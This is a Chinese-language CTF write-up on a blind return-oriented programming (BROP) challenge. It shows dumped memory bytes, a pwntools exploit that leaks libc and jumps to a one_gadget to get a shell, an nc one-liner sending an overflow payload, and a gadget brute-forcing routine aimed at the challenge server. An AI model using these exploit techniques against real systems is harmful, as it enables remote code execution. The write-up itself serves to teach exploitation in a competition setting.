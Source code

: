 ```
\x00\x00\x00\x1b\x03;@\x00\x00\x00\x07\x00\x00\x00D????\x00\xa4???\\x00\x9a\xfe\xff\xff\xb4\x00\x00\x00\xbf\xfe\xff\xff?\x00\x00\xff\xff\xff?T\xff\xff\xff\x14\x00\x00??\xff\xff\\x00\x00\x14\x00\x00\x00\x00\x00\x00\x00zR\x00x\x10\x1b\x0c\x0\x90\x07\x10\x14\x00\x00\x00\x1c\x00\x00\x00@???*\x00\x00\x00\x00\x00\x00\x00\x00\x00\x14\x00\x00\x00\x00\x00\x00\x00zR\x00x\x10\x1b\x0c\x0\x90\x00\x00$\x00\x00\x00\x1c\x00\x00\x00\xb0???P\x00\x00\x0e\x10F\x0e\x18J\x0f\x0b\x80\x00?\x1a;*3$"\x00\x00\x00\x00\x1c\x00\x00\x00D\x00\x00\x00??\xff\xff%\x00\x00\x00\x00A\x0e\x10\x86C\x06`\x0c\x0\x00\x00\x00\x1c\x00\x00\x00$
```

发生了这种情况，基本可以排除输出函数是 `puts` 还有 `printf` 的可能了，因为只有可能是 `write` 在参数发生错误的时候会输出不一样长度的内容（后来出题人说是因为忘记清空寄存器了）。这里也出现了一个非预期解，因为这个地方直接泄漏了 libc 上的值。放一下 exp：

```python
p = remote('34.92.37.22', 10000)
payload = 'A' * offset + p64(stop_gadget_list[7])
p.recvuntil('!\n')
p.sendline(payload)
libc_start_main = u64(p.recv()[0x48:0x48+8].ljust(8, '\x00')) - 240
success('libc_start_main = ' + hex(libc_start_main))
libc_base = libc_start_main - 0x20740
success('libc_base = ' + hex(libc_base))
one_gadget_offset = [0x45216, 0x4526a, 0xf02a4, 0xf1147]
one_gadget = libc_base + one_gadget_offset[0]
success('one_gadget = ' + hex(one_gadget))
payload = 'A' * offset + p64(one_gadget)
p.sendline(payload)
p.interactive()
```

下面还是记录一般 brop 中 dump 内存的方法。

基本判断出是 `write` 了之后，可以再定位一下 `call write` 的地址，手工枚举一下附近的几个地址：

```shell
$ python -c "import sys; sys.stdout.write('a'*0x28+'\x14\x07\x40')" | nc 34.92.37.22 10000
 #   #    ####    #####  ######
  # #    #    #     #    #
### ###  #          #    #####
  # #    #          #    #
 #   #   #    #     #    #
          ####      #    #
Welcome to this blind pwn!
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa@F1? @0?;?F1????;?@|??V??p@F1?|??Z???}|???^}(F1?h??;?ۇ?;?p@F1?%
```

看到直接把我们输入的字符串以及后面的一些东西输出来了，那说明没有传参直接 call 了 `write`。

接下来我们最需要的是在 `__libc_csu_init` 中的 gadgets，想办法爆破出这个地址：

```python
def get_brop_gadget(offset, stop_gadget):
    brop_gadget = 0x400600
    brop_gadget_list = []
    while True:
        if brop_gadget > 0x400800:
            return brop_gadget_list
        p = remote('34.92.37.22', 10000)
        payload = 'A' * offset + p64(brop_gadget) + p64(0) * 6 + p64(stop_gadget)
        p.sendafter('pwn!\n', payload)
        try:
            p.recvuntil('pwn!\n')
        except:
            p.close()
        else:
            success('Founded!' + hex(brop_gadget))
            brop_gadget_list.append(brop_gadget)
            p.close()
```